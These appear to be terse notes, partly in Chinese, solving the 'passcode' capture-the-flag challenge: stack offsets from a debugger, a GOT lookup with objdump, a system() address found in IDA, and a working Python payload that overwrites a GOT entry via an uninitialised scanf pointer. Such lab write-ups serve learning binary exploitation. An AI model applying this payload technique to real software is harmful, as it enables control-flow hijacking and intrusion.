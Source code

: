 Set break point at welcome 

搵 name[100]  address->ebp-0x70

set at login

搵passcode1 ,passcode2 address

passcode1:ebp-0x10
passcode2:ebp-0xc

EBP: 0xffffd3a8 --> 0xffffd3c8

observed that EBP(base pointer) address is the same for two cases

0x70-0x10=96


objdump -R passcode <-check GOT table for passcode


use IDA pro find system address:080485E3

因為入完passcode1之後只有function run(scanf,printf,chk....)做過

所以,先疊高name,向passcode1寫入地址令passcode1指向(scanf,printf,chk....)
再input system address

scanf("%d", passcode1);<becoz %d so input a integer


payload= python -c "print 'A'*96+'\x00\xa0\x04\x08\n'+'134514147\n'" | ./passcode

